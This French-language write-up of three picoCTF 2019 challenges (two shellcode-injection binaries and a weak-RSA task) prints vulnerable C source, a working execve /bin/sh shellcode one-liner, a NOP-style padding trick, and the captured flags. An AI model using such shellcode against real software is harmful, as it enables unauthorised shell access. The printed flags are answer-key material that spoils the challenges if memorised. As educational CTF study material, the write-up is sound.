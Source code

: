 # Binary_Exploitation_50_Handy_shellcode

------

### Titre : Handy_shellcode

### Points : 50

------

### Description 

Ce programme exécute n'importe quel shellcode que vous lui donnez. Pouvez-vous générer un shell et l'utiliser pour lire le fichier flag.txt ? (Merci à google translate :))

------

#### Hints

* vous pourrez peut-être trouver un bon shellcode en ligne. 

------





### Résolution

---

On se connecte vite en ssh sur le serveur shell puis une fois sur le serveur on trouve les trois fichiers suivants : flag.txt, vuln.c vuln. Je commence d'abord par analyser le programme c :
```c
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");
  
  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
...
```

Ce programme utilise un buffer pour lire l'input de l'utilisateur on peut donc s'en servir pour envoyé un shellcode (Il s’agit donc essentiellement d’un morceau de code compilé arbitraire qui peut être injecté dans un programme afin d’engendrer un shell dans le système d’exploitation exécuté par le programme) aprés quelques recherches concernant le shellcode j'ai trouvé ce payload :
```bash
$ (echo -en "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"; cat )  | ./vuln
...
```

![alt text](https://raw.githubusercontent.com/Amadimk/PICO2019-CTF/master/handy_shell.png)


`picoCTF{h4ndY_d4ndY_sh311c0d3_55c521fe}`

# Binary_Exploitation_200_slippery_shellcode

------

### Titre : slippery-shellcode

### Points : 200

------

### Description 

Ce programme est un peu plus compliqué. Pouvez-vous générer un shell et l'utiliser pour lire le fichier flag.txt? Vous pouvez trouver le programme dans /problems/slippery-shellcode_6_7cf1605ec6dfefad68200ceb12dd67a1 sur le serveur shell

------


### Résolution

Comme pour le handy shellcode je commence à analyser le code C ci-dessous :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 512
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing from a random location now...");

  int offset = (rand() % 256) + 1;
  
  ((void (*)())(buf+offset))();


  puts("Finishing Executing Shellcode. Exiting now...");
  
  return 0;
}
...
```
Je comprends vite que ce code est presque le même qu'avec le handy-shellcode sauf qu'ici notre shellcode aprés  un offset qui est modulo 256. Pour un début je tente donc de lui envoyé mon shellcode directement :  

![alt text](https://raw.githubusercontent.com/Amadimk/PICO2019-CTF/master/slippery1.png)

Mon shellcode est effectivement executé mais pas à la bonne adresse est donc j'ai un segmentation fault.
Je tente aprés d'executé mon shellcode en remplissant le buffer de 256  caractères suivi de mon shellcode.

![alt text](https://raw.githubusercontent.com/Amadimk/PICO2019-CTF/master/slippery2.png)

Et Hop j'ai effectivément un shell et le flag.


`picoCTF{sl1pp3ry_sh311c0d3_5a0fefb6}`

# Crypto_400_b00tl3gRSA2

------

### Titre : b00tl3gRSA2

### Points : 400

------

### Description 

Connectez-vous sur  `nc 2019shell1.picoctf.com 10814`,...
En RSA, d est beaucoup plus gros que e, pourquoi ne pas utiliser d pour chiffrer au lieu de e?

------

#### Hints

* Qu'est-ce que e en général ?. 

------


### Résolution

une fois connecter au serveur il nous renvoi les paramétres suivants :

```bash
c: 3246567211807903956035755386967723378469000089645359852430311338899740839190191186912796367655591221991073923539783802534343637991859596366133917926183487070028511851491672546150628697450709648276484740441059116769268880830587810651048199357915546440564242235096147024745525549383938798867512940345819471689
n: 92862994629391715025973326227583472781928051965578118595096998621079516709489523781529594005972923927674610395292210963782547003449976221876961532867478284466283591394095929545356891486644591390877842583027695288887951335923580147704761840841012240495813817062197826156384498734601243045712509995933135061613
e: 55534726162469284328134833374089125970705191581654686697554612920273578259533132513991933989595141790093397702407611338686991542277109389566561688171186896367716544979539952509680212727662952068636577177373930069448696402121437219985978915997070443631144215446467780163599410246770789910349000677632900578365
...
```
En se basant sur l'enoncé du challenge, l'hint et connaissant un peu la cryptographie RSA on comprends vite que dans cette configuration la clé privé d pour dechiffré le chiffré c est la valeur de e par défaut qui est généralement 65537.

Maintenant je connais tous les paramétres pour dechiffré le message chiffré, j'ai tous simplement converti ces diffèrents paramètres en hexadecimal puis sur le site : [https://nmichaels.org/rsa.py](https://nmichaels.org/rsa.py) j'ai reussi à dechiffré le message.(Une autre méthode était d'utiliser [RsaCtftool](https://github.com/Ganapati/RsaCtfTool) qui est trés bien manipuler RSA )

![alt text](https://raw.githubusercontent.com/Amadimk/PICO2019-CTF/master/rsadecryp.png)

Puis ensuite avec python je converti la chaine hexadecimal dechiffré en utf-8 et bingo flag.
![alt text](https://raw.githubusercontent.com/Amadimk/PICO2019-CTF/master/rsa2.png)

`picoCTF{bad_1d3a5_4986370}`









